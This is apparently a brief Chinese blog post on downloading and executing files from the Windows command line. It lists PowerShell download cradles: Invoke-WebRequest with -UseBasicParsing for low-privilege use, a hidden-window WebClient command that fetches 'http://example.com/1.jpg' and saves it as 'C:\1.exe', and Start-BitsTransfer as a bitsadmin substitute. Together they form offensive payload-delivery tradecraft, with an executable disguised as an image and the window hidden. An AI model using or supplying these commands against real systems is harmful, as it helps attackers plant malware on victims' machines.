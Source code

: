 ```yaml
---
layout: post
title: Windows下cmd下载执行
---
```


## Powershell

在某些低权限情况下只能使用这个命令，使用`-UseBasicParsing`避免调用IE解析DOM

`Invoke-WebRequest -Uri $url -OutFile $outfile -UseBasicParsing`

`powershell -w hidden -c (new-object System.Net.WebClient).Downloadfile('http://example.com/1.jpg','C:\1.exe')`

替代bitsadmin

`Start-BitsTransfer -Source $file -Destination C:\1.exe –Asynchronous`
